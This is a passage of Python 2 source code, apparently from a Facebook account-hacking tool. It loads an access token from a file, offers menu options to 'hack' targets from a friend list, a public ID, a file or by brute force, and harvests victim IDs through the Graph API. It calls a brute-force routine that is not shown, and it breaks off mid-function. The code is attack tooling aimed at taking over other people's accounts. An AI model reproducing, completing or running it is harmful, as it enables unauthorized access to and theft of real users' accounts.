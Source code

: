 def super():
	global toket
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\033[1;97mToken invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	os.system('clear')
	print logo
	print "\x1b[1;32;40m[1] \033[1;33;40m══Hack From Friend List"
	print "\x1b[1;32;40m[2] \033[1;33;40m══Hack From Public ID"
	print "\x1b[1;32;40m[3] \033[1;33;40m══Hack Bruteforce"
	print "\x1b[1;32;40m[4] \033[1;33;40m══Hack From File"
	print "\x1b[1;32;40m[0] \033[1;33;40m══Back"
	pilih_super()

def pilih_super():
	peak = raw_input("\n\033[1;31;40m>>> \033[1;97m")
	if peak =="":
		print "\033[1;97mFill in correctly"
		pilih_super()
	elif peak =="1":
		os.system('clear')
		print logo

		jalan('\033[1;97m[✺] Getting IDs \033[1;97m...')
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])

	elif peak =="2":
		os.system('clear')
		print logo
		idt = raw_input("\033[1;97m[*] Enter ID : ")
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print"\033[1;31;40m[✺] Name : "+op["name"]
		except KeyError:
			print"\033[1;97m[✺] ID Not Found!"
			raw_input("\n\033[1;97m[\033[1;97mBack\033[1;97m]")
			super()
		print"\033[1;35;40m[✺] Getting IDs..."
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
	elif peak =="3":
		os.system('clear')
		print logo
		brute()	
	elif peak =="4":
		os.system('clear')
		print logo                  
		try:
			idlist = raw_input('\033[1;97m[+] \033[1;97mEnter the file name \033[1;97m: \033[1;97m')
			for line in open(idlist,'r').readlines():
				id.append(line.strip())
		except IOError:
			print '\x1b[1;35;40m[!] \x1b[1;35;40mFile not found'
			raw_input('\n\x1b[1;35;40m[ \x1b[1;35;40mExit \x1b[1;35;40m]')